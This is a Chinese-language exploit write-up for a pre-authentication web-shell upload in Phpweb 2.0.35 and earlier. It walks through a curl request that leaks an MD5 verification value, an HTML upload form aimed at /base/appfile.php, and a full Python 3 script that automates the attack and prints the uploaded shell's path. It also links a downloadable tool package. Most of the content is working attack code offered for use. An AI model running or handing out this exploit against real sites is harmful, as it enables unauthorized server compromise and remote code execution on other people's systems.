 Phpweb 前台getshell
===================

一、漏洞简介
------------

漏洞影响文件:/base/post.php /base/appfile.php /base/appplue.php
/base/appborder.php

二、漏洞影响
------------

Phpweb\<=2.0.35

三、复现过程
------------

### 1.首先要获取加密前的Md5值，用于文件较检,通过Post提交数据来获取!

    curl "http://website/base/post.php" -H "act=appcode"

![](./resource/Phpweb前台getshell/media/rId25.png)

    ac34c64cdb405eff881efc5476a64761 ##这个就是初始值

### 2.获取加密后得md5值

然后将初始值md5加密(ac34c64cdb405eff881efc5476a64761 + "a")

得到加密后的MD5值!

    e10adc3949ba59abbe56e057f20f883e ##这个就是加密后的md5值(终值)!

3.Getsehll exp:

    <html>
    <body>
    <form action="http://0-sec.org/base/appfile.php" method="post" enctype="multipart/form-data">
    <label for="file">Filename:</label>
    <input type="file" name="file" id="file" />
    <input type="text" name="t" value="a" />
    <input type="text" name="m" value="25a824696cb75a44aabd05a08070789f" />
    <input type="text" name="act" value="upload" />
    <input type="text" name="r_size" value="14" />
    <br />
    <input type="submit" name="submit" value="getshell" />
    </form>
    </body>
    </html>

![](./resource/Phpweb前台getshell/media/rId27.png)

然后...Getshell!

![](./resource/Phpweb前台getshell/media/rId28.png)

当出现OK两个大字时,说明你成功了!!!

上传的shell路径是

[http://www.0-sec.org/effect/source/bg/shell名称.php](http://www.0-sec.org/effect/source/bg/shell名称.php)

![](./resource/Phpweb前台getshell/media/rId30.png)

### 工具编写

Python exp\[Python3\]:

    # -*- coding: UTF-8 -*- #
    import os
    import requests
    import hashlib

    bdlj = os.getcwd()
    headers = open(bdlj+"\headers.txt",'r')
    headerss = headers.read()
    print('\b')

    ur = input("请输入目标网址:")
    requrl =  ur + '/base/post.php'
    reqdata = {"act":"appcode"}
    r = requests.post(requrl,data=reqdata)
    cz=r.text[2:34]
    print ('初值:' + cz)

    cz=r.text[2:34]+"a"
    m = hashlib.md5()
    b = cz.encode(encoding='utf-8')
    m.update(b)
    zz = m.hexdigest()
    print ('终值:' + zz)

    infile = open(bdlj + "\datas.txt", "r",encoding='utf-8')
    outfile = open(bdlj + "\datah.txt", "w",encoding='utf-8')
    for line in infile:
          outfile.write(line.replace('156as1f56safasfasfa', zz))
    infile.close()
    outfile.close()
    datas = open(bdlj+"\datah.txt",'r')
    datass = datas.read()

    gs = requests.post(ur + '/base/appfile.php',data=datass,headers={'Content-Type':headerss})
    gs.encoding = 'utf-8'
    print (gs.text)

    if {gs.text == "OK"}:
        print ("Getshell成功! Shell:" + ur + "/effect/source/bg/mstir.php")
    else:
        print ("Getsehll失败!")

整包下载地址:<https://github.com/ianxtianxt/Phpweb-Getshell-py>

使用请下载整包,否则会缺少协议头和data数据!

使用教程:

![](./resource/Phpweb前台getshell/media/rId33.png)

参考链接
--------

> <https://m4tir.github.io/Phpweb-Reception-Getshell>
